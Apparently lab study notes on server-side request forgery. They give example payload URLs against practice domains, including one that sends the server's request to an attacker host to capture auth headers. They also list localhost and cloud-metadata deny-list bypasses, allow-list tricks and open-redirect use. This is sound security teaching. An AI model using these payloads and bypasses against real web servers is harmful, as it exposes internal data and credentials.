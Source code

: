 # Server Side Request Forgery (SSRF)

Vulnerability that allows a malicious user to cause a web server to make an additional or edited HTTP request to the resource of the attacker's choosing.

### **Types of SSRF** <a href="#uh2la0sscau" id="uh2la0sscau"></a>

There are two types of SSRF vulnerability:

* Regular SSRF where data is returned to the attacker's screen.
* Blind SSRF is where an SSRF occurs but no information is returned to the attacker's screen.

### **What's the impact?** <a href="#gszkoqo6sv8f" id="gszkoqo6sv8f"></a>

A successful SSRF attack can result in:

* Access to unauthorised areas.
* Access to customer/organisational data.
* Ability to Scale to internal networks.
* Reveal authentication tokens/credentials.

### **SSRF Examples** <a href="#so30n9j1p4i5" id="so30n9j1p4i5"></a>

#### **Example 1 - Complete Control of Request** <a href="#whck8t90lbwb" id="whck8t90lbwb"></a>

1. Expected request http://website.thm/stock?url=http://api/stock/item?id=123.
2. Attacker requests http://website.thm/stock?url=http://api.website.thm/api/user.
3. Website requests http://api.website.thm/api/user.
4. API server (api.website.thm) returns user data to the website instead of stock information.
5. Website (website.thm) returns user data to attacker.

#### **Example 2 - Directory Traversal** <a href="#id-3xk26kzhi03m" id="id-3xk26kzhi03m"></a>

The attacker can still reach the /api/user page with only having control over the path by utilising directory traversal.

1. Expected request http://website.thm/stock?url=/item?id=123.
2. Attacker requests http://website.thm/stock?url=/../user.
   * When website.thm receives ../ this is a message to move up a directory.
   * This removes the /stock portion of the request.
   * Turns the final request into /api/user.
3. Website requests http://api.website.thm/api/stock/../user.
4. API server (api.website.thm) returns user data to the website instead of stock information.
5. Website (website.thm) returns user data to attacker.

#### **Example 3 - Subdomain Control** <a href="#o0fgrix1cdh4" id="o0fgrix1cdh4"></a>

When the attacker can control the server's subdomain to which the request is made.

1. Expected request http://website.thm/stock?server=api\&id=123.
2. Attacker requests http://website.thm/stock?server=api.website.thm/api/user\&x=\&id=123.
   * Take note of the payload ending in \&x= being used to stop the remaining path from being appended to the end of the attacker's URL.
   * This instead turns it into a parameter on the query string.
3. Website requests http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123.
4. API server (api.website.thm) returns user data to the website instead of stock information.
5. Website (website.thm) returns user data to attacker.

#### **Example 4 - Request a Server of the Attacker's Choice** <a href="#eg14hn810tzg" id="eg14hn810tzg"></a>

1. Expected request http://website.thm/stock?url=http://api/stock/item?id=123.
2. Attacker requests http://website.thm/stock?url=\[http://api.website.thm/api/use]\(http://hacker-domain.thm/)r.
3. Website requests data from hacker-domain.thm instead of api.website.thm.
   * Can capture request headers that are sent to the attacker's specified domain.
   * These headers could contain authentication credentials or API keys sent by website.thm that would normally authenticate to api.website.thm.

#### **Example 5 - Challenge** <a href="#id-6n92btjgyasd" id="id-6n92btjgyasd"></a>

1. Expected request https://website.thm/item/2?server=api
   * URL that website.thm is requesting: https://api.website.thm/api/item?id=2
2. Change the address to force the web server to return data from https://server.website.thm/flag?id=9.
3. Attacker requests https://website.thm/item/2?server=server.website.thm/flag?id=9\&x=
   * URL that website.thm is requesting: https://server.website.thm/flag?id=9\&x=.website.thm/api/item?id=2.

### **Finding an SSRF** <a href="#s9lecxj5yxkf" id="s9lecxj5yxkf"></a>

Potential SSRF vulnerabilities can be spotted in web applications in many different ways:

* When a full URL is used in a parameter in the address bar: https://website.thm/form?server=http://server.website.thm/store
* A hidden field in a form:  \<input type="hidden" name="server" value="http://server.website.thm/store"?
* A partial URL such as just the hostname (api): https://website.thm/form?server=api
* Only the path of the URL (forms/contact): https://website.thm/form?dst=/forms/contact

Some of the examples are easier to exploit than others.  A lot of trial and error will be required to find a working payload.

An external HTTP logging tool will need to be used to monitor requests if working with a blind SSRF where no output is reflected back:

* requestbin.com.
* Own HTTP server.
* Burp Suite's Collaborator client.

### **Defeating Common SSRF Defences** <a href="#xaa769jrm4d3" id="xaa769jrm4d3"></a>

More security savvy developers aware of the risks of SSRF vulnerabilities may implement checks in their applications to make sure the requested resource meets specific rules.

#### **Deny List** <a href="#lfhe9pgyjxh0" id="lfhe9pgyjxh0"></a>

All requests are accepted apart from resources specified in a list or matching a particular pattern.

A Web Application may employ a deny list to protect assets from being accessed by the public while still allowing access to other location:

* Sensitive endpoints.
* IP addresses.
* Domains.

A specific endpoint to restrict access is the localhost.  This may contain server performance data or further sensitive information.  localhost and 127.0.0.1 should appear on a deny list.

Attackers can bypass a Deny List by using alternative localhost references such as:

* 0
* 0.0.0.0
* 0000
* 127.1
* 127.\*.\*.\*
* 2130706433
* 017700000001

A deny list can also be bypassed using subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.

In a cloud environment, it is beneficial to block access to the IP address 169.254.169.254, which contains metadata for the deployed cloud server, including possibly sensitive information.  An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.

#### **Allow List** <a href="#gm0lwvur5i0x" id="gm0lwvur5i0x"></a>

Where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with https://website.thm.  An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm.  The application logic would now allow this input and let an attacker control the internal HTTP request.

#### **Open Redirect** <a href="#mu8wr7wghubw" id="mu8wr7wghubw"></a>

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect.  An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.  E.g. the link https://website.thm/link?url=https://tryhackme.com.  This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes.  Imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/.  An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.
